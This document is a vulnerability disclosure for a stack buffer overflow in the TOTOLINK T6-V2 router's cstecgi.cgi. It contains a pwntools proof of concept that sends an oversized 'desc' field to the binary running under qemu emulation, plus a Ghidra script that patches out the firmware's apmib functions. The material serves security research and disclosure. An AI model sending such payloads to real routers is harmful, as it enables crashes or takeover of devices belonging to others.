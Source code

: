 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00412ef4` (at address 0x412ef4) gets the JSON parameter `desc`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529095338996.png" alt="image-20220529095338996" style="zoom:67%;" />

When parameter `addEffect` is equal to `1`, the program will enter the if branch at line 54.

<img src="img/image-20220529095501694.png" alt="image-20220529095501694" style="zoom:67%;" />

In the red box, program copies `desc` to the stack buffer without checking its length.

## PoC



```python
from pwn import *
import json

data = {
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "1",
    "ip": "192.168.1.1",
    "proto": "UDP",
    "sPort": "9999",
    "dPort": "9999",
    "desc": 'A'*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

<img src="img/image-20220529095742244.png" alt="image-20220529095742244" style="zoom:67%;"/>

I use qemu-user to emulate the binary. However, the program calls `apmib_XXX` family functions. These functions fail and the program cannot continue to run. ld.so in the firmware doesn't support LD_PRELOAD, so I can't hook apmib_XXX family functions. For this reason, I patched the related functions in libapmib.so in /lib, such as apmib_init, apmib_get, apmib_set, and apmib_update functions. 
I use this ghidra script to do it.
```java
import ghidra.app.script.*;
import ghidra.program.model.address.*;
import ghidra.program.model.listing.*;
import ghidra.program.model.mem.*;
import java.util.*;
import java.io.*;

public class NopPatcher extends GhidraScript {

    class PatchScope implements Comparable<PatchScope> {
        Function fun;
        int beginAddr;
        int endAddr;

        PatchScope(String name, String begin, String end) {
            fun = getFunctionByName(name);
            beginAddr = (int)addressToFileOffset(getAddressFactory().getAddress(begin));
            endAddr = (int)addressToFileOffset(getAddressFactory().getAddress(end));
        }

        @Override
        public int compareTo(PatchScope candidate) {
            return this.beginAddr - candidate.beginAddr;
        }
        @Override
        public String toString() {
            return String.format("<%s, %x, %x>", fun.getName(), beginAddr, endAddr);
        }
    }

    ArrayList<PatchScope> scopes = new ArrayList<PatchScope>();

    @Override
    public void run() throws Exception {
		// String funname = "";
        // Function fun = getFunctionByName(funname);
        scopes.add(new PatchScope("apmib_set", "0x0018f24", "0x00194b0"));
        scopes.add(new PatchScope("apmib_get", "0x00185f0", "0x0018910"));
        scopes.add(new PatchScope("apmib_update", "0x00180c4", "0x00185b8"));
        scopes.add(new PatchScope("apmib_init", "0x001ae38", "0x001aef8"));

        Collections.sort(scopes);
        println(scopes.toString());

        File file = getProgramFile();
        println(file.toPath().toString());
        
        FileInputStream fileInputStream = new FileInputStream(file);
        byte[] fileContentBuffer = new byte[(int)file.length()];
        fileInputStream.read(fileContentBuffer);
        fileInputStream.close();

        for (PatchScope scope : scopes) {
            int begin = scope.beginAddr;
            int end = scope.endAddr;
            for (int i = begin; i < end; i++) {
                fileContentBuffer[i] = 0;
            }
            printf("patch function <%s> is done\n", scope.fun.getName());
        } 

        String newFilePath = file.getParent() + File.separator + "new-" + file.getName();
        println(newFilePath);
        FileOutputStream fileOutputStream = new FileOutputStream(newFilePath);
        fileOutputStream.write(fileContentBuffer);
        fileOutputStream.close();
    }

    private long addressToFileOffset(Address addr) {
        MemoryBlock[] memBlocks = getMemoryBlocks();
        MemoryBlock targetMemBlock = null;
        for (MemoryBlock mb : memBlocks) {
            if (mb.contains(addr)) {
                targetMemBlock = mb;
                break;
            }
        }
        if (targetMemBlock == null) {
            return 0;
        }
        List<MemoryBlockSourceInfo> memoryBlockSourceInfos = targetMemBlock.getSourceInfos();
        MemoryBlockSourceInfo targetSourceInfo = null;
        for (MemoryBlockSourceInfo sourceInfo : memoryBlockSourceInfos) {
            if (sourceInfo.contains(addr)) {
                targetSourceInfo = sourceInfo;
                break;
            }
        }
        if (targetSourceInfo == null) {
            return 0;
        }
        return targetSourceInfo.getFileBytesOffset(addr);
    }

    private Function getFunctionByName(String name) {
        Function fun = getFirstFunction();
        while (fun != null) {
            if (fun.getName().equals(name))
                return fun;
            fun = getFunctionAfter(fun);
        }
        return null;
    }
}

```
